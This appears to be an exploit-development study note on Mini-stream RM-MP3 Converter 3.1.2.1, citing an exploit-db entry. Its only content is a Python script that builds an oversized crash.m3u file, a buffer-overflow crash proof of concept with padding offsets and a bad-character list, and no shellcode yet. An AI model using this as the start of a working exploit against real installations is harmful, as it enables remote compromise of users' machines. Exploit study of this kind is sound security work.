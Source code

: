 # Mini-stream RM-MP3 Converter 3.1.2.1 

Downloaded from: https://www.exploit-db.com/exploits/20116

## Initial Crash
```py
#!/usr/bin/python
 
import sys, struct
 
file="crash.m3u"
 
 
#---------------------------------------------------------------------#
# Badchars: '\x00\x09\x0A'                                            #
#---------------------------------------------------------------------#
crash = "http://." + "A"*17416 + "B"*4 + "C"*7572
 
writeFile = open (file, "w")
writeFile.write( crash )
writeFile.close()
```
